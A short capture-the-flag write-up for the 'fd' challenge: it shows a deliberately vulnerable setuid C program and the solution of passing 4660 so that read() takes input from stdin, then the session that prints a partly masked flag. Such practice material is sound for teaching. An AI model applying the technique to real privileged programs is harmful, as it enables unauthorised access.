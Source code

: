 ## fd ##

Challange:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		setregid(getegid(), getegid());
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Solution:

We found that we can manipulate the fd (file descriptor) variable used in read operation, we can redirect the fd to stdin (id for stdin is 0), and write the "LETMEWIN" string in buf. In this case the fd value equal to first argument - 0x1234 (4660).


```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
Mama! Now_I_xxxxxxxx
```
